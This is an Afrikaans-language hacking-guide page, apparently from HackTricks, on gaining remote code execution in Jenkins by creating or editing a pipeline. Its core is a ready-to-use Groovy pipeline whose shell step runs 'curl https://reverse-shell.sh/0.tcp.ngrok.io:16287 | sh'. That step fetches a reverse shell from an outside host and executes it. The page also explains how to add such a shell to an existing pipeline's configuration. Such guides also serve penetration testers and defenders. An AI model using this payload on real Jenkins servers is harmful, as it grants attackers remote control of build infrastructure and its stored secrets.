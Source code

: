 # Jenkins RCE Skep/Wysig Pyplyn

{{#include ../../banners/hacktricks-training.md}}

## Skep 'n nuwe Pyplyn

In "Nuwe Item" (toeganklik in `/view/all/newJob`) kies **Pyplyn:**

![](<../../images/image (235).png>)

In die **Pyplyn afdeling** skryf die **omgekeerde dop**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Laastens klik op **Stoor**, en **Bou Nou** en die pyplyn sal uitgevoer word:

![](<../../images/image (228).png>)

## Wysig 'n Pyplyn

As jy toegang het tot die konfigurasie-lêer van 'n geconfigureerde pyplyn, kan jy dit eenvoudig **wysig deur jou omgekeerde skulp by te voeg** en dit dan uitvoer of wag totdat dit uitgevoer word.

{{#include ../../banners/hacktricks-training.md}}
